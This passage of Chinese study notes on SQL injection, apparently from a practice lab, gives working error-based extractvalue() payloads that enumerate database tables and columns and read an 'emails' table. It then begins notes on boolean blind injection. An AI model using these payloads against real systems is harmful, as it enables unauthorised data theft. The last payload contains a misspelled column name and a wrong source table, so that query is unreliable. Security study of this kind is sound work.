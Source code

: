    ![2. 查看数据库名](http://113.45.142.235:9001/laffrex/pictures/2.%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D.png)

3. 查看表数、表名

   ```sql
   #查看表数
   1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
   ```

   ![3. 查看表数](http://113.45.142.235:9001/laffrex/pictures/3.%E6%9F%A5%E7%9C%8B%E8%A1%A8%E6%95%B0.png)

   ```sql
   #查看表名
   1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
   ```

   ![4. 查看所有表名](http://113.45.142.235:9001/laffrex/pictures/4.%E6%9F%A5%E7%9C%8B%E6%89%80%E6%9C%89%E8%A1%A8%E5%90%8D.png)

4. 查看字段数、字段名

   ```sql
   #查看字段数
   1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e)) --+
   ```

   ```sql
   #查看字段名
   1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e)) --+
   ```

   ![5. 查看表的字段名](http://113.45.142.235:9001/laffrex/pictures/5.%E6%9F%A5%E7%9C%8B%E8%A1%A8%E7%9A%84%E5%AD%97%E6%AE%B5%E5%90%8D.png)

5. 查看字段内数据

   ```sql
   1' and extractvalue(1,concat(0x7e,(select group_concat(concat_ws('___',id,email_id)) from information_schema.columns where table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
   ```

#### (3). 布尔盲注

##### a. 定义

* 服务器**不会直接返回**具体的数据库，只会返回程序开发所设定的**特定信息**

##### b. 相关函数

###### ①长度截取

* substr(arg1,int1,int2)，**int1为截取开始位置(从1开始计算)**，**int2为截取长度**，其余用法完全一样

  1. substr()
  2. substring()
  3. mid()
  4. left()
  5. right()
